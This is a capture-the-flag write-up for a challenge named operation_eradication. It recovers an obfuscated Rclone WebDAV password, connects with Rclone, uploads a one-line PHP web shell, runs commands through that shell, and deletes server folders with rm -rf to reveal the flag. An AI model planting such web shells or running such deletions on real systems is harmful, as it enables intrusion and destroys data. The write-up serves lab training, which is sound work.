







# Solution
- Hit the Start button and download the operation_eradication file.
- The file contains credentials for a WebDAV service. Google the file content and Rclone appears.



- The file is an Rclone configuration file for a WebDAV service. The password is obfuscated though. Google for "Rclone credentials deobfuscator github" and the repository https://github.com/maaaaz/rclonedeobscure shows up.
- Run the tool to get the password in clear.
```bash
python /opt/rclonedeobscure/rclonedeobscure.py -d "HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5"
```



- Browse the link given by the challenge and the WebDAV login is at /webdav path like descripted in the operation_eradication configuration file.



- Set up an Rclone remote WebDAV with the command:
```bash
rclone config
```
Pick the option "49" for WebDAV. The link must be "http://URL/webdav". The username is "VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r". The password has been found in the previous step.
- Test WebDAV connection listing all the file with Rclone.
```bash
rclone ls huntress:/
```



- Upload a simple php web shell called "webshell.php" with Rclone copy command.
```php
<?php system($_GET['cmd']); ?>
```

```bash
rclone webshell.php huntress:/
```
- The webshell can be found at "http://URL/webdav/webshell.php". Test the web shell executing "id" command.



- List all the folders with "ls" command and start deleting them with "rm -rf" command.



- After deleting all the folders and the "webshell.php" itself, the flag can be found at the starting link.


